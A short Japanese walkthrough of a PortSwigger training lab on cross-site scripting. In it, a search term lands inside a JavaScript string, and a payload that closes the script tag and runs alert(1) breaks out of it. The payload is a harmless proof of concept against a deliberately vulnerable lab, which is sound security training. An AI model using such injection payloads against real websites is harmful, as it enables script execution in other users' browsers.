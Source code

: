 # 一重引用符とバックスラッシュをエスケープして XSS を JavaScript 文字列に反映

次のハッキングラボを実施  
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped

- 1. ハッキングラボにアクセスします
- 2. 検索窓に任意のワードを入力して検索ボタンを押します
- 3. 検索結果ページでソースを見ると検索ワードが javascript に埋め込まれていることが確認出来ます

```html
<script>
  var searchTerms = "abc";
  document.write('<img src="/resources/images/tracker.gif?searchTerms=' + encodeURIComponent(searchTerms) + '">');
</script>
```

- 4. javascript をエスケープするために検索ワードを以下にして検索します

```
</script><script>alert(1)</script>
```

アラートメッセージが表示され、スクリプトが実行できることが確認できます。
